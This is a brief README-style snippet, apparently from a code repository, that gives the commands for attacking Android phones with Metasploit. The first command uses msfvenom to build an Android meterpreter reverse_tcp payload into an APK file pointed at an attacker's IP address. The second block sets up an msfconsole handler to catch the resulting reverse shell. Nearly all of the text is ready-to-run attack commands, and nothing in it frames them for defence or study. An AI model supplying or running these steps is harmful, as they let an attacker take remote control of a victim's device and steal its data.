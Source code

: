### create reverse shell by msfvenom
```
msfvenom -p android/meterpreter/reverse_tcp LHOST=[Attacker's IP] LPORT=[PORT] R > [APK Filename] 
```
​
### connect reverse shell
```
msfconsole

use exploit/multi/handler

set PAYLOAD android/meterpreter/reverse_tcp

set LHOST [Attacker's IP]

set LPORT [PORT]

exploit
```
